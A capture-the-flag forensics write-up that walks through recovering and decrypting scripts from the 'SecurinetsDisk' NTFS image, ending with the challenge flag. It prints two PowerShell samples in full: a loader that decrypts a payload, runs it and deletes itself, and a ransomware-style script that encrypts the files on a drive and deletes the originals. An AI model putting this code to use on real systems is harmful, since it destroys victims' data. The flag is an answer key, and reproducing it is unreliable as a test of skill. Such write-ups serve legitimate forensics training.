


## SecurinetsDisk-clean.001 CTF Write-up

### Overview

* **File:** `SecurinetsDisk-clean.001` (NTFS disk image, \~100 MiB)
* **Objective:** Recover `loader.ps1`, use its keys/IVs to decrypt nested scripts, and ultimately retrieve the flag.

---

### 1. Initial Reconnaissance

```bash
$ file SecurinetsDisk-clean.001
SecurinetsDisk-clean.001: DOS/MBR boot sector MS-MBR Windows 7 English
  "Invalid partition table" @0x17b, "Error loading operating system" @0x19a
  disk signature: 0xf6a155
  Partition 1: ID=0x7, start-CHS=(0x0,2,3), end-CHS=(0xb,254,63)
  startsector=128, 198656 sectors
```

* **Interpretation:** NTFS partition begins at sector 128 (offset = 128 × 512 = 65 536 bytes).

---

### 2. Mounting the Volume

```bash
$ sudo mount -t ntfs -o loop,ro,offset=65536 SecurinetsDisk-clean.001 /mnt
$ ls -lah /mnt
-rw-r--r-- 1 root root  1.2K Jul 20 ransom_note.txt
-rw-r--r-- 1 root root  5.6K Jul 20 payload.enc
-rw-r--r-- 1 root root  1.2K Jul 20 flag.enc
drwxr-xr-x 1 root root   64K Jul 20 "System Volume Information"
```

#### `ransom_note.txt` content:

```
i never set out to lock them away.
i only wished to keep them safe—from prying eyes, from careless hands.
the runes? they trembled under my touch, slipping through the shadows.
the echoes? they scattered, hiding in the spaces between heartbeats.

yet the truth knows no silence.
it pulses in the stillness, waiting to be heard.
seek the cipher buried in midnight’s hush.
trace the footprints of forgotten scripts.

perhaps, in the hush of your own reflection,
you’ll unearth the fragments i left behind.
perhaps, in that moment, i will meet you—
and you will meet yourself.

—Mr.F00L
```

* **Clue:** “cipher buried in midnight’s hush” hints at a hidden script encrypted on disk.

---

### 3. Carving & Deleted Files

* **Foremost** on the raw image yielded no useful recoveries.
* Use Sleuth Kit to list deleted NTFS entries:

  ```bash
  $ fls -r -d -f ntfs -o 128 SecurinetsDisk-clean.001 > deleted.lst
  ```
* Grepping for obvious script names:

  ```bash
  $ grep -i "loader.ps1" deleted.lst
  -/r * 40-128-1:    loader.ps1
  ```
* **Observation:** Entry ID `40-128-1` corresponds to `loader.ps1` deleted from root directory.

---

### 4. Recovering `loader.ps1`

```bash
$ icat -f ntfs -o 128 SecurinetsDisk-clean.001 40 > loader.ps1
```

```powershell
# loader.ps1 (recovered)
$key = [System.Text.Encoding]::UTF8.GetBytes("0123456789abcdef")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("abcdef9876543210")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Read Base64 ciphertext
$enc   = Get-Content "L:\payload.enc" -Raw
$bytes = [System.Convert]::FromBase64String($enc)

# Decrypt payload
$decryptor = $AES.CreateDecryptor()
$plaintext = $decryptor.TransformFinalBlock($bytes,0,$bytes.Length)
$script    = [System.Text.Encoding]::UTF8.GetString($plaintext)

# Execute inner script
Invoke-Expression $script

# Self-delete
Remove-Item $MyInvocation.MyCommand.Path
```

* **Explanation:**

  * **Key/IV:** `"0123456789abcdef"` & `"abcdef9876543210"`.
  * **AES-CBC** decrypts `payload.enc` into a second PowerShell script, then executes and removes itself.

---

### 5. Decrypting `payload.enc`

* Copied Base64 blob from `/mnt/payload.enc` into CyberChef:

  * **Recipe:** Base64 → AES Decrypt (Key=`0123456789abcdef`, IV=`abcdef9876543210`, Mode=CBC, Padding=PKCS7)



* **Resulting script:**

```powershell
# ransom.ps1
$key = [System.Text.Encoding]::UTF8.GetBytes("m4yb3w3d0nt3x1st")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("l1f31sf0rl1v1ng!")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Stage 1: Encrypt flag.txt -> flag.enc
$flag     = Get-Content "C:\Users\Blue\Desktop\StageRansomware\flag.txt" -Raw
$encryptor= $AES.CreateEncryptor()
$bytes    = [System.Text.Encoding]::UTF8.GetBytes($flag)
$cipher   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
[System.IO.File]::WriteAllBytes("L:\flag.enc", $cipher)

# Stage 2: Encrypt all other files on L:\ (except scripts)
$files = Get-ChildItem "L:\" -File | Where-Object {
    $_.Name -notin @("ransom.ps1","ransom_note.txt","flag.enc","payload.enc","loader.ps1")
}
foreach ($file in $files) {
    $plaintext = Get-Content $file.FullName -Raw
    $bytes     = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $encdata   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
    [System.IO.File]::WriteAllBytes("L:\$($file.BaseName).enc", $encdata)
    Remove-Item $file.FullName
}

# Update ransom note and self-delete
Set-Content "L:\ransom_note.txt" @"...
- vivi (or his ghost)
"@ -Encoding UTF8
Remove-Item $MyInvocation.MyCommand.Path
```

**Key/IV for flag:**

* Key: `m4yb3w3d0nt3x1st`
* IV:  `l1f31sf0rl1v1ng!`

---

### 6. Recovering the Flag

```bash
# Decrypt flag.enc with PowerShell:
PS> $key=..; $iv=..; $cipher=[IO.File]::ReadAllBytes("L:\flag.enc");
PS> $AES=New-Object ...; $AES.Key=$key; $AES.IV=$iv; $plaintext=$AES.CreateDecryptor().TransformFinalBlock($cipher,0,$cipher.Length);
PS> [System.Text.Encoding]::UTF8.GetString($plaintext)
```

Or via CyberChef:

1. Import `flag.enc` as raw bytes.
2. AES Decrypt (Key/IV above, CBC, PKCS7).



* **Flag:** `Securinets{I_d0nt_kn0w_h0w_t0_b3_s1l3nt_wh3n_my_HearT_1s_sp34k1ng}`

---

### Summary

1. Mapped NTFS partition and mounted image.
2. Inspected ransom note for hints.
3. Carved deleted `loader.ps1` via Sleuth Kit (`fls` + `icat`).
4. Decrypted `payload.enc` to reveal nested script, extracted new key/IV.
5. Decrypted `flag.enc` to obtain final flag.

> **Shoutout:** White Nights
